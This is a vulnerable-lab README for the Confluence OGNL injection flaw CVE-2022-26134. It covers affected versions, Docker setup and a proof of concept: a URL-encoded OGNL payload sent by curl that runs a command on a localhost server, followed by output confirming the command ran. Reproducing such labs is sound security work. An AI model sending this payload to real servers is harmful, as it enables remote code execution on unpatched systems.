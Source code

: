 # Confluence CVE-2022-26134 OGNL vulnerability

This vulnerability affects Confluence Server and Confluence Data Center. It allows an attacker to send a specially crafted HTTP request to abuse OGNL within Confluence, leading to remote code execution.

In order for this vulnerability to be exploitable, the following conditions must be met:
* Use versions of Confluence lower than 7.4.17, 7.13.7, 7.14.3, 7.15.2, 7.16.4, 7.17.4 and 7.18.1
* Confluence is configured (can't use a server that hasn't been installed and not connected to a DB)


## Running the application

Run it:

```
docker-compose up
```

Install confluence

1. Navigate to `localhost:8090`
2. Get a trial license (this won't work without one)
3. In db setup step, put in hostname: `db`, port: `5432`, dbname: `conf`, username: `postgres`, password: `koko`
4. It'll take a while to configure, make sure you have 3-4gb of RAM
5. Use a test site/template, and use confluence to manage users. Fill in default for admin
6. Once you get past the admin creation step, you can run the exploit

## Exploitation steps

```
curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/pwned%22%29%7D/
```

Output:

```
└> curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/pwned%22%29%7D/
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 8090 (#0)
> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/pwned%22%29%7D/ HTTP/1.1
> Host: localhost:8090
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 302
< Cache-Control: no-store
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Confluence-Request-Time: 1654294225669
< Set-Cookie: JSESSIONID=A12C784ACFF928E9155587F78E9EC0C0; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fpwned%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Fri, 03 Jun 2022 22:10:25 GMT
<
* Connection #0 to host localhost left intact
* Closing connection 0
```

Exec into the container

```
└> ./getshell.sh confluence

root@b2db3bfbe364:/var/atlassian/application-data/confluence# ls -lah /tmp
total 12K
drwxrwxrwt 1 root       root       4.0K Jun  3 22:12 .
drwxr-xr-x 1 root       root       4.0K Jun  3 19:56 ..
drwxr-xr-x 2 confluence confluence 4.0K Jun  3 22:07 hsperfdata_confluence
-rw-r----- 1 confluence confluence    0 Jun  3 22:10 pwned
```
